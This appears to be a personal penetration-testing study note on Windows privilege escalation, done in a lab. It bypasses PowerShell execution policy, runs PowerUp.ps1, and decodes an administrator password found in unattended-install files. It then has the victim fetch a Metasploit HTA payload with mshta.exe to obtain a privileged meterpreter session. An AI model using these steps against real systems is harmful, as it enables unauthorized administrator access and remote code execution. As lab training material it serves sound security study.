


# 4 - Windows File System Vulnerabilities

* Alternate Data Streams



### How to use PowerUp.ps1 script


```bash
# 1
# traansfer to windows target.

# 2
# bypass powershell execution policy.
powershell -ep bypass

# 3
# import the module to the current session.
Import-Module .\PowerUp.ps1

# 4
# load the script
. .\PowerUp.ps1

# 5
# to see all imported commands
Get-Command -Module Privesc

# 6
# Invoke-PrivEscAudit checks and other checks
Invoke-PrivEscAudit
# we found some "Unattend installation .xml files" you could find something else.
```


<figure><figcaption></figcaption></figure>

cat out the content, you get the administrator username and its encoded password.

Decode it with Powershell.

`$password='sdbsvdvvffvv'` - create a variable in powershell.

`$password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64 String($password))` - decode the password with powershell cmd.

<figure><figcaption><p>decode password with PowerShell</p></figcaption></figure>

Now spawn a privileged cmd prompt session with the credentials using the "runas.exe" utility.

`runas.exe /user:Administrator cmd` - spawning cmd prompt shell.


Now open Metasploit in Kali


```bash
# use the hta_server module
use exploit/windows/misc/hta_server
exploit

# it creates a 2 links, copy the local link
# http://0.0.0.0:8080/NQrQsVq9oDB3Tsd.hta

# goto the victim pc, run "mshta.exe" utility with the malicious HTA server link in the spawned cmd prompt session.
mshta.exe http://0.0.0.0:8080/NQrQsVq9oDB3Tsd.hta

# back in kali, we should get a privileged meterpreter session.
```



